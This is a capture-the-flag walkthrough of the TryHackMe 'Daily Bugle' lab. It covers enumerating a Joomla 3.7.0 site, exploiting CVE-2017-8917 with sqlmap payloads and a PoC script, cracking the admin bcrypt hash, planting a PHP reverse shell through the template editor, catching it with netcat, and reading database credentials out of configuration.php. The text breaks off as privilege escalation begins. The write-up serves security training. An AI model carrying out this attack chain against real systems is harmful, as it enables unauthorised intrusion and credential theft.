






<br>

- **Description**: Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum.
- **Level**: Hard 
- **Category**: root/flag
- **Knowlege base**: Basic Understanding in Sqlmap
- **Learnings**: enumeratiom/bruteforcing/scripting/privilege-escalation
- **Vulnerability**: Sql-injection/CVE-2017-8917


## Reconnaissance
 
# Enumeration
## Nmap scanning
```bash
$ nmap -sC -sV -Pn --min-rate=1000 -T4 -vv -oN nmap.txt dailybugle.thm
 
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCbp89KqmXj7Xx84uhisjiT7pGPYepXVTr4MnPu1P4fnlWzevm6BjeQgDBnoRVhddsjHhI1k+xdnahjcv6kykfT3mSeljfy+jRc+2ejMB95oK2AGycavgOfF4FLPYtd5J97WqRmu2ZC2sQUvbGMUsrNaKLAVdWRIqO5OO07WIGtr3c2ZsM417TTcTsSh1Cjhx3F+gbgi0BbBAN3sQqySa91AFruPA+m0R9JnDX5rzXmhWwzAM1Y8R72c4XKXRXdQT9szyyEiEwaXyT0p6XiaaDyxT2WMXTZEBSUKOHUQiUhX7JjBaeVvuX4ITG+W8zpZ6uXUrUySytuzMXlPyfMBy8B
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKb+wNoVp40Na4/Ycep7p++QQiOmDvP550H86ivDdM/7XF9mqOfdhWK0rrvkwq9EDZqibDZr3vL8MtwuMVV5Src=
|   256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP4TcvlwCGpiawPyNCkuXTK5CCpat+Bv8LycyNdiTJHX
80/tcp   open  http    syn-ack Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-title: Home
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
3306/tcp open  mysql   syn-ack MariaDB (unauthorized)
```
## Directory and file brute-forcing 
```bash
$ gobuster dir -u http://dailybugle.thm -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -o /home/l0n3m4n/tools/ctf/thm/hard/dailybugle/gobuster.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dailybugle.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 211]
/.htpasswd            (Status: 403) [Size: 211]
/administrator        (Status: 301) [Size: 244] [--> http://dailybugle.thm/administrator/]
/bin                  (Status: 301) [Size: 234] [--> http://dailybugle.thm/bin/]
/cache                (Status: 301) [Size: 236] [--> http://dailybugle.thm/cache/]
/cgi-bin/             (Status: 403) [Size: 210]
/cli                  (Status: 301) [Size: 234] [--> http://dailybugle.thm/cli/]
/components           (Status: 301) [Size: 241] [--> http://dailybugle.thm/components/]
/images               (Status: 301) [Size: 237] [--> http://dailybugle.thm/images/]
/includes             (Status: 301) [Size: 239] [--> http://dailybugle.thm/includes/]
/language             (Status: 301) [Size: 239] [--> http://dailybugle.thm/language/]
/layouts              (Status: 301) [Size: 238] [--> http://dailybugle.thm/layouts/]
/libraries            (Status: 301) [Size: 240] [--> http://dailybugle.thm/libraries/]
/media                (Status: 301) [Size: 236] [--> http://dailybugle.thm/media/]
/modules              (Status: 301) [Size: 238] [--> http://dailybugle.thm/modules/]
Progress: 12352 / 20477 (60.32%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 12360 / 20477 (60.36%)
===============================================================
Finished
===============================================================
``` 
> After finding an interesting link, I checked it and found this one: hxxp://dailbugle.thm/administrator


## Checking CMS version
> CMSeeK Detects popular CMSs like WordPress, Joomla, Drupal, and more.
```bash
$ python3 cmseek.py -u http://dailybugle.thm
 ___ _  _ ____ ____ ____ _  _
|    |\/| [__  |___ |___ |_/  by @r3dhax0r
|___ |  | ___| |___ |___ | \_ Version 1.1.3 K-RONA


 [+]  Deep Scan Results  [+] 

[✔] Target: http://dailybugle.thm
[✔] Detected CMS: Joomla
[✔] CMS URL: https://joomla.org
[✔] Joomla Version: 3.7.0
[✔] Readme file: http://dailybugle.thm/README.txt
[✔] Admin URL: http://dailybugle.thmadministrator


[✔] Open directories: 4
[*] Open directory url: 
   [>] http://dailybugle.thmadministrator/modules
   [>] http://dailybugle.thmimages/banners
   [>] http://dailybugle.thmadministrator/templates
   [>] http://dailybugle.thmadministrator/components


[!] No core vulnerabilities detected!
``` 

## Searching public exploit 
- After using the `searchsploit -w` command on ExploitDB, I discovered that the server is vulnerable to `SQL injection`. While the researcher employed `sqlmap`, I came across an intriguing tool called `Sploitscan` written by `xaitax`. I decided to use it to scan for the CVE ID and check for any available proof of concept (PoC).
```bash

$ searchsploit -w Joomla 3.7.0

------------------------------------------- --------------------------------------------
 Exploit Title                             |  URL
------------------------------------------- --------------------------------------------
Joomla! 3.7.0 - 'com_fields' SQL Injection | https://www.exploit-db.com/exploits/42033
Joomla! Component Easydiscuss < 4.0.21 - C | https://www.exploit-db.com/exploits/43488
------------------------------------------- --------------------------------------------
Shellcodes: No Results
Papers: No Results
```


## Sqlmap
```bash
$ sqlmap -u "http://dailybugle.thm/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
...
GET parameter 'list[fullordering]' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 2746 HTTP(s) requests:
---
Parameter: list[fullordering] (GET)
    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 9286 FROM(SELECT COUNT(*),CONCAT(0x716b7a7a71,(SELECT (ELT(9286=9286,1))),0x7178767a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 2890 FROM (SELECT(SLEEP(5)))mMtn)
---
[23:22:35] [INFO] the back-end DBMS is MySQL
[23:22:35] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
web server operating system: Linux CentOS 7
web application technology: Apache 2.4.6, PHP 5.6.40
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[23:22:38] [INFO] fetching database names
[23:22:39] [INFO] retrieved: 'information_schema'
[23:22:39] [INFO] retrieved: 'joomla'
[23:22:39] [INFO] retrieved: 'mysql'
[23:22:40] [INFO] retrieved: 'performance_schema'
[23:22:40] [INFO] retrieved: 'test'
available databases [5]:
[*] information_schema
[*] joomla
[*] mysql
[*] performance_schema
[*] test

[23:22:40] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 2709 times
[23:22:40] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/dailybugle.thm'
```
## Searching PoC
> Sploitscan is one of my favorite tools for searching detailed information about CVEs, including their EPSS and additional data.
```bash
$ sploitscan CVE-2017-8917    

███████╗██████╗ ██╗      ██████╗ ██╗████████╗███████╗ ██████╗ █████╗ ███╗   ██╗
██╔════╝██╔══██╗██║     ██╔═══██╗██║╚══██╔══╝██╔════╝██╔════╝██╔══██╗████╗  ██║
███████╗██████╔╝██║     ██║   ██║██║   ██║   ███████╗██║     ███████║██╔██╗ ██║
╚════██║██╔═══╝ ██║     ██║   ██║██║   ██║   ╚════██║██║     ██╔══██║██║╚██╗██║
███████║██║     ███████╗╚██████╔╝██║   ██║   ███████║╚██████╗██║  ██║██║ ╚████║
╚══════╝╚═╝     ╚══════╝ ╚═════╝ ╚═╝   ╚═╝   ╚══════╝ ╚═════╝╚═╝  ╚═╝╚═╝  ╚═══╝
v0.10.4 / Alexander Hagenah / @xaitax / ah@primepage.de

╔═══════════════════════╗
║ CVE ID: CVE-2017-8917 ║
╚═══════════════════════╝

┌───[ 🔍 Vulnerability information ]
|
├ Published:   2017-05-17
├ Base Score:  N/A (N/A)
├ Vector:      N/A
└ Description: SQL injection vulnerability in Joomla! 3.7.x before 3.7.1 allows attackers to execute arbitrary SQL
               commands via unspecified vectors.

┌───[ ♾️ Exploit Prediction Score (EPSS) ]
|
└ EPSS Score:  97.54% Probability of exploitation.

┌───[ 🛡️ CISA KEV Catalog ]
|
└ ❌ No data found.

	┌───[ 💣 Public Exploits (Total: 12) ]
|
├ GitHub
│  ├ Date: 2024-06-06 - https://github.com/gloliveira1701/Joomblah
│  ├ Date: 2023-11-21 - https://github.com/BaptisteContreras/CVE-2017-8917-Joomla
│  ├ Date: 2023-01-18 - https://github.com/xeno-john/joomla_CVE-2017-8917
│  ├ Date: 2022-08-29 - https://github.com/Siopy/CVE-2017-8917
│  ├ Date: 2022-02-13 - https://github.com/gmohlamo/CVE-2017-8917
│  ├ Date: 2021-05-27 - https://github.com/Siopsec/CVE-2017-8917
│  ├ Date: 2019-01-12 - https://github.com/cved-sources/cve-2017-8917
│  ├ Date: 2017-11-20 - https://github.com/stefanlucas/Exploit-Joomla
│  └ Date: 2017-05-20 - https://github.com/brianwrf/Joomla3.7-SQLi-CVE-2017-8917
│
├ Exploit-DB
│  ├ Date: 2018-03-29 - https://www.exploit-db.com/exploits/44358
│  ├ Date: 2018-03-29 - https://www.exploit-db.com/exploits/44358
│  └ Date: 2017-05-19 - https://www.exploit-db.com/exploits/42033
│
└ Other
   ├ PacketStorm: https://packetstormsecurity.com/search/?q=CVE-2017-8917
   └ Nuclei: https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/main/http/cves/2017/CVE-2017-8917.yaml

┌───[ 🕵️ HackerOne Hacktivity ]
|
├ Rank:        2238
├ Reports:     1
└ Severity:    Unknown: 1 / None: 0 / Low: 0 / Medium: 0 / High: 0 / Critical: 0

┌───[ 🤖 AI-Powered Risk Assessment ]
|
|                                     
| ❌ OpenAI API key is not configured correctly.
|
└────────────────────────────────────────

┌───[ ⚠️ Patching Priority Rating ]
|
└ Priority:     A+

┌───[ 📚 Further References ]
|
├ http://www.securityfocus.com/bid/98515
├ https://developer.joomla.org/security-centre/692-20170501-core-sql-injection.html
├ https://www.exploit-db.com/exploits/44358/
├ http://www.securitytracker.com/id/1038522
└ https://www.exploit-db.com/exploits/42033/

```
# Gaining Access
## PoC 
- After digging around for `PoC`, I found this great tool and TBH I’m not really good at building tools, especially when I’m playing CTF—it feels like a complete waste of time to me IMO.
```bash
$ python3 joomla.py -h                                 

   (                    )   )   )     )   (        )   )     )                       (       
   )\  (   (  (      ( /(( /(( /(  ( /(   )\ (  ( /(( /(  ( /(    (              )   )\   )  
 (((_) )\  )\ )\ ___ )(_))\())\()) )\())_((_))\ )\())\()) )\())__ )\  (    (    (   ((_| /(  
 )\___((_)((_|(_)___((_)((_)((_)\ ((_)\___|_((_|(_)((_)\ ((_)\___((_) )\   )\   )\  '_ )(_)) 
((/ __\ \ / /| __|  |_  )  (_) (_)__  /   ( _ )/ _(_) (_)__  /  _ | |((_) ((_)_((_))| ((_)_  
 | (__ \ V / | _|    / / () || |   / /    / _ \_, /| |   / /  | || / _ \/ _ \ '  \() / _` | 
  \___| \_/  |___|  /___\__/ |_|  /_/     \___/ /_/ |_|  /_/    \__/\___/\___/_|_|_||_\__,_| 
    
usage: joomla.py [-h] [--schema {http,https}] --host HOST [--port PORT] [--uri URI] [--debug]

CVE-2017-8917-Joomla exploit script for TryHackMe "Dailybugle" CTF

options:
  -h, --help            show this help message and exit
  --schema {http,https}
                        Specify the schema (http or https)
  --host HOST           Specify a valid IPV4 or domain as the host
  --port PORT           Specify a valid port (default is 80)
  --uri URI             Specify the URI (default is index.php)
  --debug               Enable debug mode

Note: I think the --uri command is not working properly, so its better to use --host command and its ipv4 address.   
                                                                                                                
┌──(l0n3m4n㉿kali)-[~/…/ctf/thm/hard/dailybugle]
└─$ python3 joomla.py --host 10.10.119.22 --debug
``` 

## Extracted hash
> Then we dump this user's hash, so it's time for cracking using Hashcat or John.
```bash
Super User ||| jonah ||| jonah@tryhackme.com ||| $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm 
```
## Checking hash type
> But first, let's check the hash type. When pasting the hash, add a `\` character to avoid errors or you can also used this single `'` insted of double quote `"`
```bash
$ hashid "\$2y\$10\$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm"
Analyzing '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
```

## Password cracking 
> It's possible that it's a bcrypt hash. You can also check the `Hashcat Wiki examples`. Without further ado, let's try to crack it using John the Ripper (JTR).
```bash
$ john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 

Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spiderman123     (?)     
1g 0:00:08:00 DONE (2024-10-26 00:04) 0.002080g/s 97.43p/s 97.43c/s 97.43C/s thelma1..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```                                      
> Now that we’ve cracked the user password, let’s try to log in on the homepage.


## Uploading a PHP reverse shell
> Go to `Global Configuration` and click on `Templates`.

> Add a valid file extension, `php`, and change the limit from 2MB to 10MB, since our reverse shell PHP file is larger than 2MB. Then, save and close the configuration.

> Next, you will go to `Protostar Details` and then to `Files`.

> Then paste your PHP payload in index.php

> Save and close then goto hxxp://dailybugle.thm/index.php

## Curl
> You can also run a tool like curl if you prefer not to paste the URL into a browser, it's quite nice to use from the terminal LOL! 
```bash
$ curl http://dailybugle.thm/index.php 
```
## Reverse Listener
```bash
$ sudo rlwrap -cAr nc -lvnp 441
[sudo] password for l0n3m4n: 
listening on [any] 441 ...
connect to [10.2.4.61] from (UNKNOWN) [10.10.119.22] 58232
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 03:32:17 up 42 min,  0 users,  load average: 0.04, 0.03, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell

sh-4.2$ whoami
whoami
apache

sh-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)

sh-4.2$ uname -a
uname -a
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

sh-4.2$ export TERM=linux 
export TERM=linux 

sh-4.2$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
sh: python3: command not found

sh-4.2$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'

bash-4.2$ ls
ls
bin   dev  home  lib64	mnt  proc  run	 srv  tmp  var
boot  etc  lib	 media	opt  root  sbin  sys  usr

bash-4.2$ 

```
# Post Enumeration
## Checking environment variables.
```bash
$ env 
XDG_SESSION_ID=6
HOSTNAME=dailybugle
TERM=xterm-256color
SHELL=/bin/bash
HISTSIZE=1000
SSH_CLIENT=10.2.4.61 49634 22
SSH_TTY=/dev/pts/3
USER=jjameson
LS_COLORS=rs=0:di=38;5;27:ln=38;5;51:mh=44;38;5;15:pi=40;38;5;11:so=38;5;13:do=38;5;5:bd=48;5;232;38;5;11:cd=48;5;232;38;5;3:or=48;5;232;38;5;9:mi=05;48;5;232;38;5;15:su=48;5;196;38;5;15:sg=48;5;11;38;5;16:ca=48;5;196;38;5;226:tw=48;5;10;38;5;16:ow=48;5;10;38;5;21:st=48;5;21;38;5;15:ex=38;5;34:*.tar=38;5;9:*.tgz=38;5;9:*.arc=38;5;9:*.arj=38;5;9:*.taz=38;5;9:*.lha=38;5;9:*.lz4=38;5;9:*.lzh=38;5;9:*.lzma=38;5;9:*.tlz=38;5;9:*.txz=38;5;9:*.tzo=38;5;9:*.t7z=38;5;9:*.zip=38;5;9:*.z=38;5;9:*.Z=38;5;9:*.dz=38;5;9:*.gz=38;5;9:*.lrz=38;5;9:*.lz=38;5;9:*.lzo=38;5;9:*.xz=38;5;9:*.bz2=38;5;9:*.bz=38;5;9:*.tbz=38;5;9:*.tbz2=38;5;9:*.tz=38;5;9:*.deb=38;5;9:*.rpm=38;5;9:*.jar=38;5;9:*.war=38;5;9:*.ear=38;5;9:*.sar=38;5;9:*.rar=38;5;9:*.alz=38;5;9:*.ace=38;5;9:*.zoo=38;5;9:*.cpio=38;5;9:*.7z=38;5;9:*.rz=38;5;9:*.cab=38;5;9:*.jpg=38;5;13:*.jpeg=38;5;13:*.gif=38;5;13:*.bmp=38;5;13:*.pbm=38;5;13:*.pgm=38;5;13:*.ppm=38;5;13:*.tga=38;5;13:*.xbm=38;5;13:*.xpm=38;5;13:*.tif=38;5;13:*.tiff=38;5;13:*.png=38;5;13:*.svg=38;5;13:*.svgz=38;5;13:*.mng=38;5;13:*.pcx=38;5;13:*.mov=38;5;13:*.mpg=38;5;13:*.mpeg=38;5;13:*.m2v=38;5;13:*.mkv=38;5;13:*.webm=38;5;13:*.ogm=38;5;13:*.mp4=38;5;13:*.m4v=38;5;13:*.mp4v=38;5;13:*.vob=38;5;13:*.qt=38;5;13:*.nuv=38;5;13:*.wmv=38;5;13:*.asf=38;5;13:*.rm=38;5;13:*.rmvb=38;5;13:*.flc=38;5;13:*.avi=38;5;13:*.fli=38;5;13:*.flv=38;5;13:*.gl=38;5;13:*.dl=38;5;13:*.xcf=38;5;13:*.xwd=38;5;13:*.yuv=38;5;13:*.cgm=38;5;13:*.emf=38;5;13:*.axv=38;5;13:*.anx=38;5;13:*.ogv=38;5;13:*.ogx=38;5;13:*.aac=38;5;45:*.au=38;5;45:*.flac=38;5;45:*.mid=38;5;45:*.midi=38;5;45:*.mka=38;5;45:*.mp3=38;5;45:*.mpc=38;5;45:*.ogg=38;5;45:*.ra=38;5;45:*.wav=38;5;45:*.axa=38;5;45:*.oga=38;5;45:*.spx=38;5;45:*.xspf=38;5;45:
MAIL=/var/spool/mail/jjameson
PATH=/usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin:/home/jjameson/.local/bin:/home/jjameson/bin
PWD=/home/jjameson
LANG=C.UTF-8
HISTCONTROL=ignoredups
SHLVL=1
HOME=/home/jjameson
LOGNAME=jjameson
SSH_CONNECTION=10.2.4.61 49634 10.10.112.232 22
LESSOPEN=||/usr/bin/lesspipe.sh %s
XDG_RUNTIME_DIR=/run/user/1000
_=/usr/bin/env 
```
> We found the config file `configuration.php`
```bash
bash-4.2$ ls
ls
LICENSE.txt    cli		  includes   media	 tmp
README.txt     components	  index.php  modules	 web.config.txt
administrator  configuration.php  language   plugins
bin	       htaccess.txt	  layouts    robots.txt
cache	       images		  libraries  templates
bash-4.2$ pwd
pwd
/var/www/html
bash-4.2$ 

```

## User password
```bash
bash-4.2$ cat configuration.php
          cat configuration.php
cat configuration.php
<?php
class JConfig {
	public $access = '1';
	public $debug = '0';
	public $debug_lang = '0';
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'root';
	public $password = 'nv5uz9r3ZEDzVjNu'; # found a user password 
	public $db = 'joomla';
	public $dbprefix = 'fb9j5_';
	public $live_site = '';
	public $secret = 'UAMBRWzHO3oFPmVC';
	public $gzip = '0';
	public $error_reporting = 'default';
	public $helpurl = 'https://help.joomla.org/proxy/index.php?keyref=Help{major}{minor}:{keyref}';
	public $ftp_host = '127.0.0.1';
	public $ftp_port = '21';
	public $ftp_user = '';
	public $ftp_pass = '';
	public $ftp_root = '';
	public $ftp_enable = '0';
	public $offset = 'UTC';
	public $mailonline = '1';
	public $mailer = 'mail';
	public $mailfrom = 'jonah@tryhackme.com';
	public $fromname = 'The Daily Bugle';
	public $sendmail = '/usr/sbin/sendmail';
	public $smtpauth = '0';

```
```bash
$ ssh jjameson@dailybugle.thm  
jjameson@dailybugle.thm's password: 
Last login: Mon Dec 16 05:14:55 2019 from netwars
[jjameson@dailybugle ~]$
```
## Sending linpeas to target machine
> attacker machine
```bash
                                                                                    
┌──(l0n3m4n㉿kali)-[~/tools/priv-esc]
└─$ ls      
linpeas.sh  winpeasx64.exe
                                                                                        
